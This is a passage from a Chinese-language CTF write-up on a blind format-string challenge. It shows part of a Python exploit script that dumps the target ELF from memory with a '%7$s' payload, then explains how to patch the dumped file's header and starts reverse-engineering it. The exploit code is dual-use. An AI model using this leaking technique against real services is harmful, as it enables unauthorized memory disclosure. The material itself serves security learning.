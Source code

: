 ```
        if res == "":    #说明要泄漏的数据就是x00
            return "x00"
        else:
          return res
      return "xff"  #如果出现异常，先返回xff
    except KeyboardInterrupt:
      raise
    except EOFError:
      log.debug("got EOF for leaking addr 0x{:x}".format(addr))
      pass
    except Exception:
      log.warning("got exception...", exc_info = sys.exc_info())
    finally:
        if p:
          p.close()
    return "xff"
f = open("nomoreblind-binary", "wb")
base = 0x08048000
leaked = ""
while len(leaked) &lt; 8000:          #假设目标ELF小于8kb
    address = base + len(leaked)  #新的泄露地址等于基地址加上已泄漏的长度
  tmp = leakELF(address)
  leaked += tmp
  log.info(hexdump(leaked))
  with open("nomoreblind-binary", "wb") as f: #将已泄漏的数据写入文件
      f.write(leaked)
```



[![](./img/85817/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0196481d34babfd87c.png)

由于是32bit程序，一般起始于0x08048000，故我们将此处设置为泄漏的起始地址。泄漏的方式就是利用格式化字符参数%s，payload是"ABCD%7$sDCBA"+p32(addr)，ABCD和DCBA是为了定位返回的数据位置，而我们要泄漏信息的地址（即p32(addr)）位于偏移位置7。我们这里假设目标elf大小是8kb，其实没有那么大，视情终止即可。在上面的代码中，我们通过自定义的leakELF函数，每次泄漏一段数据，并记录数据长度，以便下次从该长度之后继续泄漏。代码中还需要解释的几点是：

leakELF中的for循环是为了防止连接服务器出错，毕竟要泄漏的数据量较大；

如果payload中出现0x0a，则会造成截断（接收函数是fgets），直接返回none；

如果返回的ABCD与DCBA之间没数据，则设置返回数据为x00；

如果直接出现异常或无返回，则设置返回数据为xff。

整个泄漏的时间会比较长，慢慢等吧，大概到4kb左右的时候，其实就已经完成了，因为出现了新的ELF头（x7f454c46）。这个其实没有特别的标志，只能说毕竟是比赛，binary不会太大，感觉差不多，拿出来分析一下就知道了。

**3.2 修复ELF文件**

由于我们在dump脚本中填补了一些xff，故需要大概修补一下，比如文件的第一个字节，就要从xff改为x7f。通过010Editor的ELF文件模板，我们可以比较方便地修补ELF文件。涉及到ELF文件格式的问题，这里就不多说了，大家可以参考其他文章，主要把文件头修改好就差不多了。当然，修改了之后也是不能运行的，毕竟从内存中dump出来的ELF与可执行文件在区段大小等方面还是不一样的。

[![](./img/85817/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t016e0e7b3597bfa060.png)

**3.3 逆向ELF文件**

上面的ELF文件已经可以借助IDA进行逆向了，F5后得到的伪代码如下。

